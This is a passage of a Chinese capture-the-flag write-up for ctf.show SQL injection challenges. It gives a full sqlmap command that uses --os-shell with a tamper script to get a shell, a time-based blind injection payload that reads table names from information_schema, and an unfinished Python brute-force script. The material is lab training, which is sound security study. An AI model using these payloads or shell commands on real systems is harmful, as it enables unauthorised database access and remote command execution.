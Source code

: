 
## web213~--os-shell

> 练习使用--os-shell 一键getshell
>
> ```
> //对查询字符进行解密
>   function decode($id){
>     return strrev(base64_decode(strrev(base64_decode($id))));
>   }
> function waf($str){
>     return preg_match('/ |\*/', $str);
> }
> ```

https://zhuanlan.zhihu.com/p/58007573

```
python2 sqlmap.py -u http://4588589d-2509-4ce9-ae0a-7850a7a75f0d.chall.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show  --headers="Content-Type:text/plain" --safe-url="http://4588589d-2509-4ce9-ae0a-7850a7a75f0d.chall.ctf.show/api/getToken.php" --safe-freq=1 --os-shell  --tamper=web212 --batch
```

直接getshell

![image-20210129165450641](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210129165450641.png)

## 六、时间盲注

## web214~无过滤时间盲注

payload:

```
post:
debug=1&ip=if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1,sleep(2),0)
```

写个脚本：

自增法：

```python
# @Author: yanmie

import requests

url = "http://404d8d96-01d3-4d8e-a14e-aaf5c80a5d67.chall.ctf.show/api/"

payload = "if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))={},sleep(2),0)"
i = 0
table = ""

while True:
    i += 1
    for j in range(127):
        data = {
            "debug" : 1,
            "ip" : payload.format(i,j)
        }
        try:
            response = requests.post(url=url,data=data,timeout=1)
        except Exception as e:
```